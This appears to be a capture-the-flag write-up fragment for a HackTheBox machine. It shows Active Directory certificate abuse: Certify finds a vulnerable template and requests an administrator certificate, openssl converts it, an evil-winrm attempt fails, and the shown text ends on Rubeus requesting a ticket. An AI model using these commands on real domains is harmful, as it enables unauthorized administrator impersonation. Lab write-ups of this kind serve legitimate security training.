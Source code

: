 ```
upload certify.exe
.\certify.exe find /vulnerable

Vulnerable Certificates Templates
```

-> OK, it worked with ryan.cooper account and not with sql\_svc because Enrollment Rights = sequel\Domain Users

```
net user ryan.cooper

Global Group Membership     *Domain Users
```

## Build a malicious certificate

Using : [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

Paste the result in cert.pem file

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Enter
```

A cert.pfx is created

Put privatekey in key.cert and publickey in key.pem&#x20;

```
evil-winrm -S -c key.cert -k key.pem -i dc.sequel.htb
```

-> KO because 5986 for winrm over https is closed

```
nc -zv $TARGET 5986
```

-> KO , unable to use winrm over ssl

## Try to use malicious certificate to ask TGT

```
*Evil-WinRM* PS c:\programdata> 
upload Rubeus.exe
upload cert.pfx

.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx

```
